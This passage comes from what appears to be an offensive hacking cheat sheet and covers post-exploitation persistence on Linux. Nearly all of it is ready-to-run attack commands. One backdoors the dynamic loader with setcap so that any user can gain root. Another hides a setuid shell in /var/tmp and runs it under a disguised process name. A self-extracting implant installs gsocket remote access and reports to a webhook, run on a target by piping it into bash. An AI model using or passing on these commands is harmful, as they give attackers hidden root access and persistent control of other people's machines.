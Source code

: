 ```
ExecStartPre=/usr/sbin/sshd -t
ExecStart=/usr/sbin/sshd -D $SSHD_OPTS
...
```
   
<a id="ld-backdoor"></a>
**6.vii. Local Root Backdoor**

#### 1. Backdooring the dynamic loader with setcap

```bash
### Execute as ROOT user
fn="$(readlink -f /lib64/ld-*.so.*)" || fn="$(readlink -f /lib/ld-*.so.*)" || fn="/lib/ld-linux.so.2"
setcap cap_setuid,cap_setgid+ep "${fn}"
```

```bash
### Execute as non-root user to get root
fn="$(readlink -f /lib64/ld-*.so.*)" || fn="$(readlink -f /lib/ld-*.so.*)" || fn="/lib/ld-linux.so.2"
p="$(command -v python3 2>/dev/null)" || p="$(command -v python)"
"${fn:?}" "$p" -c 'import os;os.setuid(0);os.setgid(0);os.execlp("bash", "kdaemon")'
```

#### 2. Good old b00m shell

```shell
{ cp /bin/sh /var/tmp/.b00m; chmod 6775 /var/tmp/.b00m; } 2>/dev/null >/dev/null
```

```shell
exec /var/tmp/.b00m -p -c 'exec python -c "import os;os.setuid(0);os.execlp(\"bash\", \"kdaemon\")"'
```

<a id="implant"></a>
**6.viii. Self-Extracting implant**

Create a self-extracting shell-script using [mkegg.sh](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/blob/master/tools/mkegg.sh) (see source for examples).

Simple example:
```sh
# Create implant 'egg.sh' containing the file 'foo'
# and the directory 'warez'. When executing 'egg.sh' then
# extract 'foo' and 'warez' and call 'warez/run/sh'
./mkegg.sh egg.sh foo warez warez/run.sh
```

Real world examples are best:
1. Create an implant that installs gsocket and calls our webhook on success:
```sh
./mkegg.sh egg.sh deploy-all.sh '(GS_WEBHOOK_KEY=e90d4b38-8285-490d-b5ab-a6d5c7c990a7 deploy-all.sh 2>/dev/null >/dev/null &)'
# On the target system do: 'cat egg.sh | bash' or './egg.sh'
```
